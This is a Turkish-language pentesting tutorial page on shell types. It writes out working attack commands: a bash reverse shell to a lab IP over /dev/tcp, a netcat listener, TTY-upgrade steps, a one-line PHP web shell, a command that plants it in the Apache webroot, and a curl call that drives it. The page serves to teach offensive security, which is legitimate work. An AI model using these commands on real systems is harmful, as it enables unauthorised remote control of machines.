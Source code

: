 ```yaml
---
icon: material/circle-small
---
```


# Types of Shells

## Reverse Shell

Reverse shell, kontrol elde etmenin en hızlı ve en kolay yöntemi olduğundan en yaygın shell türüdür. Saldırı makinemizdeki dinleyiciye geri bağlantı başlatır.

### Netcat Listener

Reverse shell almak için ilk adım seçilen bir port için Netcat dinleyicisi başlatmaktır:

```bash
nc -l -v -n -p 2222
```

| Flag | Description |
|:---|:---|
| `-l` | Bir bağlantının bağlanması beklenir. |
| `-v` | Ayrıntılı mod kullanılır. |
| `-n` | Bağlantıyı hızlandırmak için DNS çözümlemesi devre dışı bırakılır. |
| `-p` | Port numarası belirtilir. |

### Reverse Shell Command

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) reposunda bulunan [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) sayfasında reverse shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

Aşağıda örnek bir reverse shell komutu verilmiştir:

```bash
bash -c 'bash -i &> /dev/tcp/10.0.2.6/2222 0<&1'
```

Bu komut hedef makinede çalıştırıldığında Netcat tarafında bağlantı alınabilir.

## Bind Shell

Hedef bilgisayardaki belirli bir porta bağlanır ve saldırı makinesinden bağlantı bekler. [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) sayfasında bind shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

## Upgrading TTY

Uzak bir shell bağlantısında yalnızca komut yazabilir veya ++backspace++ işlevini kullanabiliriz. Ancak komutlarımızı düzenlemek için metin imlecini sola veya sağa hareket ettiremeyiz ya da komut geçmişine erişmek için yukarı aşağı hareket edemeyiz. Bu işlevleri kullanabilmek amacıyla TTY yükseltmesi gerçekleştirilir. Bunun için mevcut makinedeki TTY, uzak makinedeki TTY ile eşleştirilmelidir.

TTY yükseltmek için kullanılan yöntemlerden biri python/stty yöntemidir. Bu yöntemde Netcat ile dinleme gerçekleştirdiğimiz shell Full TTY yapılır:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Bu komutun ardından shell arka plana taşınır. Bu şekilde yerel terminale geri dönülür. Sonrasında aşağıdaki komut ile echo özelliği devre dışı bırakılır:

```bash
stty raw -echo
```

Bu işlemin ardından Netcat shell tekrar ön plana taşınır:

```bash
fg
```

Son olarak yeni bir sekmede başka bir terminal açılır. Aşağıdaki komutlar ile terminale ait profil ve boyut bilgileri görüntülenir:

```bash
echo $TERM && stty size
```

Burada edinilen bilgiler Netcat shell içerisine kopyalanır:

```bash
export TERM=xterm-256color && stty rows 30 columns 120
```

## Web Shell

Web shell, HTTP GET veya HTTP POST istek parametreleri aracılığıyla verilen komutları kabul eder, bu komutları yürütür ve sonuçları web sayfasına yazdırır.

### Writing a Web Shell

Bir web shell script genellikle kısa olan, tek satırlık (one-liner) bir komut dosyasıdır. Aşağıda PHP için örnek bir web shell script verilmiştir:

```php
<?php system($_REQUEST["cmd"]); ?>
```

### Uploading a Web Shell

Web shell dosyasını web tarayıcısı aracılığıyla yürütmek için, script, uzak bilgisayarın web köküne (webroot) yerleştirilmelidir.

Aşağıda bazı web sunucuları için varsayılan web kökleri verilmiştir:

| Web Server | Default Webroot |
|:---|:---|
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

Örneğin Apache çalıştıran bir Linux bilgisayarına saldırıyorsak aşağıdaki komutu kullanabiliriz:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Accessing a Web Shell

Parametre olarak `id` değeri verilerek `id` komutunun çalıştırılması sağlanabilir:

```bash
curl http://SERVER_IP_ADDRESS:PORT/shell.php?cmd=id
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bir web shell port üzerinde yeni bir bağlantı açmaz. Bu sayede bazı güvenlik duvarı kısıtlamaları atlanabilir. Ayrıca hedef bilgisayar yeniden başlatılsa bile, web shell, yerinde kalmaya devam eder.
